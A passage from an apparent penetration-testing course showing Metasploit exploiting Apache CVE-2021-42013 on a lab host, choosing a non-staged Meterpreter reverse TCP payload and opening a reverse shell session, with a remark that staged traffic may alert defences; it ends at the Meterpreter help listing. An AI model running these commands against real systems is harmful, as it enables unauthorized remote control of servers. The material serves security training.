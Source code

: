 ```
   9   payload/linux/x64/meterpreter_reverse_http                         normal  No     Linux Meterpreter, Reverse HTTP Inline
   10  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   11  payload/linux/x64/meterpreter_reverse_tcp                          normal  No     Linux Meterpreter, Reverse TCP Inline
   ...

msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 11
payload => linux/x64/meterpreter_reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > show options
...

Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
...
```

> Listing 34 - Review compatible Meterpreter payloads of the exploit module and use 64bit *meterpreter\_reverse\_tcp*

Listing 34 shows that there are various Meterpreter payloads compatible for the currently activated exploit module.

At this point, we should note that all Meterpreter payloads are staged; however, the output of **show payloads** contains both staged and non-staged payloads. The difference between those two types is how the Meterpreter payload is transferred to the target machine. The non-staged version includes all components required to launch a Meterpreter session while the staged version uses a separate first stage to load these [components](https://buffered.io/posts/staged-vs-stageless-handlers/). Loading these components over the network creates quite some traffic and may alert defensive mechanisms. In situations where our bandwidth is limited or we want to use the same payload to compromise multiple systems in an assessment, a non-staged Meterpreter payload comes in [quite handy](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/). For the rest of the Module, we'll use the non-staged version whenever we use a Meterpreter payload.

After selecting the 64-bit non-staged version of *meterpreter\_reverse\_tcp* as payload, we can review its options. For this payload, the same options apply as those for the previous payloads we used.

Now, let's run the exploit module with our Meterpreter payload. Once we obtain a Meterpreter command prompt, we'll display its available commands by entering **help**.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/meterpreter_reverse_tcp command payload
[*] Meterpreter session 4 opened (192.168.119.4:4444 -> 192.168.50.16:35538) at 2022-08-08 05:20:20 -0400
[!] This exploit may require manual cleanup of '/tmp/GfRglhc' on the target

meterpreter > help

Core Commands
=============

    Command                   Description
```